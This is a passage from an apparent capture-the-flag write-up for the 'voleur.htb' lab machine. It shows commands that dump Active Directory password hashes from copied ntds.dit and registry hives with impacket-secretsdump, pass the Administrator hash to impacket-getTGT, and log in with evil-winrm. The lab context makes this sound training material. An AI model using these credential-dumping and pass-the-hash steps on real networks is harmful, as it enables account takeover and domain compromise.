

This is everything we need in order to use impacket-secretsdump to dump the Administrators hash!

First we need to copy the files over to our attack machine using `scp`:



<h3>Impacket-secretsdump</h3>

We are now ready to dump the hashes using the command:

```
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```


Now we can follow the same `impacket-getTGT` and set `KRB5CCNAME` environment variable as we have for the previous users.

The `impacket-getTGT` command differs from the previous commands in that we need to add the `-hashes` option with the hash prepended by a `:` such as:

```
impacket-getTGT voleur.htb/Administrator -hashes :<HASH>
```

Then we set the `KRB5CCNAME` environment variable and login using `evil-winrm`:



The user.txt flag can be found in the `svc_winrm` users desktop and the root.txt flag can be found in the `Administrators` desktop thus solving the challenge!

